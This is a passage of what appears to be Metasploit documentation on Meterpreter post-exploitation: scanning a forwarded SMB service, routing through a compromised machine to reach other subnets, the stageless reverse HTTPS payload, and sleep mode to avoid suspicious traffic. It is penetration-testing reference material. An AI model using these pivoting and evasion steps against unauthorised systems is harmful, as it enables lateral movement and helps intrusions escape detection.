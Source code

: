 And then talk to the remote SMB service like it's local:

```
msf auxiliary(smb_version) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(smb_version) > run

[*] 127.0.0.1:445         - Host is running Windows 7 Ultimate SP1 (build:7601) (name:WIN-6NH0Q8CJQVM) (domain:WORKGROUP)
```

## Routing through msfconsole

The route command from the msf prompt can also be used to bypass firewall like portfwd, but it also
allows you to connect to hosts on a different network through the compromised machine.

To do that, first off, look at the ifconfig/ipconfig output and determine your pivot point:

```
meterpreter > ipconfig
```

Make sure you know the subnet, netmask, and the Meterpreter/session ID. Return to the msf prompt,
and establish that route:

```
msf > route add 192.168.1.0 255.255.255.0 1
```

At that point, you should have a working pivot. You can use other Metasploit modules to explore
or exploit more hosts on the network, or use auxiliary/server/socks4a and [Proxychains](http://proxychains.sourceforge.net/) to allow
other third-party tools to do the same.


## Meterpreter Stageless Mode

A stageless Meterpreter allows a more economical way to deliver the payload, for cases where a
normal one would actually cost too much time and bandwidth in a penetration test. To learn more
about this, [click on this](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Stageless-Mode)
to read more.

To use the stageless payload, use ```windows/meterpreter_reverse_https``` instead.

## Meterpreter Sleep Control

The sleep mode allows the payload on the target machine to be quiet for awhile, mainly in order to
avoid suspicious active communication. It also provides better efficiency.

It is very simple to use. At the Meterpreter prompt, simply do:

```
meterpreter > sleep 20
```

And that will allow Meterpreter to sleep 20 seconds, and will reconnect as long as the handler
remains active (such as running as a background job).

